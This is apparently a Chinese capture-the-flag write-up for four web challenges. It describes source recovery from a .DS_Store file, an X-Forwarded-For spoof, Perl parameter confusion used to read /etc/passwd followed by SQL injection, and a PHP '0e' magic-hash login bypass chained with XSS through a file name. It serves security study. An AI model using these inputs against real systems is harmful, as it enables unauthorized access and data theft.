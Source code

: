 # CountingStars 100

下载'/.DS_Store'恢复源代码，计算$$$$$$...$$$S的值是'd0llars'，提交后得到302跳转，里面的body部分就是flag

# Invisible 100

没什么好说的，加'X-Forwarded-For: 127.0.0.1'

# WeirdCamel 400

蛋疼perl的奇怪特性，http请求重复提交某一字段后会有奇怪效果....    
不附带参数直接post的话，perl代码接受到的变量的值大致好像是（这里用json表示）
```js
{
'name': 'PHONE',
'phone': '',
'email': ''
}
```
提交`name=1`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```
提交`name=1&name=2`有：
```js
{
'name': '1',
'phone': '',
'email': ''
}
```
提交`name=1&name=2&name=3`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```

从上面的效应大概可以知道，perl大概直接把hash结构存为一个数组，不提交参数时就是
```js
['NAME','PHONE','EMAIL']
```
解释成`{'NAME':'PHONE', 'EMAIL': ''}`，然后提交`name=1`的时候就变成：
```js
['NAME','1','PHONE','EMAIL']
```
解释成`{'NAME':'1','PHONE':'EMAIL'}`,然后提交`name=1&name=2`的时候就变成：
```js
['NAME','1','2','PHONE','EMAIL']
```
解释成`{'NAME':'1','2':'PHONE','EMAIL':''}`等等....

那么我们脑洞一下后就可以知道要改STATEMENT的值，那就提交`name=1&name=STATEMENT&name=/etc/passwd`就可以读取'/etc/passwd'啦     
读register.pl后可以发现里面有个注释了的`#print <a href='什么什么news.pl?id=1'>`，然后就是sql注入     

在perl里面转义函数quote()在形如"id=1'&id=2"的时候直接返回"1'"....也就是直接无障碍裸的sql注入....    

payload:
![perl.png](perl.png)


# BOSS 500

`http://question12.erangelab.com/login.php~`可以看代码，为什么这么执着于备份文件.....

```php
<?php
$username = $_POST['username'];
$password_md5 = $_POST['password'];
// check username and password
if($username=="editor" && $password_md5=="0e
{
// login success
// somecode...
}else{
// login fail
    echo 'ERROR:USERNAME OR PASSWORD WRONG!';
}
```

直接`username=editor&password=0`登录，然后要上传一个文件     
试了下发现`Content-Type:application/msword`，然后上传文件名中'/'前的字符全被扔掉，    
然后估计是在文件名里面XSS管理员，那么注意一下把'/'用'&#47;'代替一下就好，当然也可以用其他办法，    

XSS返回：
```
...
  'HTTP_CONNECTION' => 'keep-alive',
  'HTTP_CACHE_CONTROL' => 'max-age=0',
  'HTTP_USER_AGENT' => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36',
  'HTTP_ACCEPT' => 'image/webp,image/*,*/*;q=0.8',
  'HTTP_REFERER' => 'http://question12.erangelab.com/xnuca_checklist.php',
  'HTTP_ACCEPT_ENCODING' => 'gzip, deflate, sdch',
  'HTTP_ACCEPT_LANGUAGE' => 'zh-CN,zh;q=0.8',
  'PHP_SELF' => '/rec.php',
  'REQUEST_TIME_FLOAT' => 1469968445.9431269,
  'REQUEST_TIME' => 1469968445,
)array (
  'str' => 'send_role=xt=urn:btih:1207054EE7FBB53FF0708BDE6A7934B7E5095CC9',
)array (
)
```

下载cookie的磁力链接即可看到flag。